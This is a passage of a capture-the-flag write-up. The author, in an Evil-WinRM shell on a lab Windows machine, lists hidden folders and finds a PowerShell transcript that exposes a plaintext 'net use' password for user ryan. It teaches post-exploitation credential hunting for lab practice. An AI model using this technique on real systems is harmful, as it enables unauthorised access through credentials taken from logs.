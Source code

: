 
In PowerShell, `ls` is an alias for `Get-ChildItem` or `gci`. On windows, it’s
often a good idea to run that with `-force`, kind of like running `ls -a`.

    
    
    *Evil-WinRM* PS C:\> ls -force
    
        Directory: C:\
    
    Mode                LastWriteTime         Length Name    
    ----                -------------         ------ ----    
    d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
    d--hsl        9/25/2019  10:17 AM                Documents and Settings
    d-----        9/25/2019   6:19 AM                PerfLogs
    d-r---        9/25/2019  12:39 PM                Program Files
    d-----       11/20/2016   6:36 PM                Program Files (x86)
    d--h--        9/25/2019  10:48 AM                ProgramData
    d--h--        12/3/2019   6:32 AM                PSTranscripts
    d--hs-        9/25/2019  10:17 AM                Recovery
    d--hs-        9/25/2019   6:25 AM                System Volume Information
    d-r---        12/4/2019   2:46 AM                Users   
    d-----        12/4/2019   5:15 AM                Windows 
    -arhs-       11/20/2016   5:59 PM         389408 bootmgr 
    -a-hs-        7/16/2016   6:10 AM              1 BOOTNXT 
    -a-hs-        1/17/2020   2:07 PM      402653184 pagefile.sys   
    

In diving through the various hidden folders, `PSTranscripts` seemed
interesting. It contained one file:

    
    
    *Evil-WinRM* PS C:\> gci -recurse -force -file PSTranscripts
    
        Directory: C:\PSTranscripts\20191203
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt    
    

Without having to know much about what’s going on in the transcript (I’ll look
in Beyond Root), this jumped out:

    
    
    PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"                
    >> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
    

There’s a `net use` command trying to map a share into drive `X:` using ryan’s
password.

### WinRM Shell

#### Checking Permissions
